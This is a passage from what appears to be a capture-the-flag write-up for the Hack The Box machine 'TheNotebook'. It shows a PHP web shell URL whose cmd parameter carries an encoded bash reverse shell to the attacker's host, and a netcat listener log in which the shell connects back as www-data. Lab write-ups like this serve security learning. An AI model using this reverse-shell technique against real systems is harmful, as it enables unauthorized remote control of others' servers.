 
![](_attachments/Pasted%20image%2020240426121421.png)

We got code execution!

![](_attachments/Pasted%20image%2020240426123002.png)



`http://10.10.10.230/c214a2fb80bab315fc328a5eff2892b5.php?cmd=bash+-c+%27bash+-i+%3E%26+/dev/tcp/10.10.14.43/5000+0%3E%261%27`


```bash
joshua@kaligra:~/Documents/htb/machines/TheNotebook$ nc -nvlp 5000
listening on [any] 5000 ...
connect to [10.10.14.43] from (UNKNOWN) [10.10.10.230] 58736
bash: cannot set terminal process group (1161): Inappropriate ioctl for device
bash: no job control in this shell
www-data@thenotebook:~/html$

```
